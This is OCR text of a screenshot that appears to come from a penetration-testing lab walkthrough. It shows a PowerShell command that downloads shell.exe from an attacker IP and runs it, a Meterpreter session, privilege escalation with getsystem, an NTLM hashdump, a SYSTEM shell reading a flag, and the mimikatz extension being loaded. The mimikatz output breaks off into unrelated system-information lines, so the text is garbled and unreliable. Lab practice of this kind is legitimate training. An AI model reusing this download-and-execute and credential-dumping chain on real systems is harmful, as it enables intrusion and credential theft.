 PS C:\Users\Public> (New-Object Net.WebClient).DownloadFile('http://172.16.7.240:8000/shell.exe','C:\Users\Public\shell.exe')

PS C:\Users\Public> C:\Users\Public\shell.exe

Multi/handler listener caught meterpreter session:

[*] Meterpreter session 1 opened (172.16.7.240:31337 -> 172.16.7.60:50063 ) at 2023-03-07 20:21:11 -0500

​

meterpreter > hashdump

[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.

meterpreter > getsystem

...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:136b3ddfbb62cb02e53a8f661248f364:::

DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::

meterpreter > shell

Process 5412 created.

Channel 2 created.

Microsoft Windows [Version 10.0.17763.2628]

(c) 2018 Microsoft Corporation. All rights reserved.

​

C:\Windows\system32>whoami

nt authority\system

​

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt

s3imp3rs0nate_cl@ssic

​

C:\Windows\system32>exit

​

meterpreter > load kiwi

Loading extension kiwi...

.#####. 
mimikatz 2.2.0 20191125 (x64/windows)


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0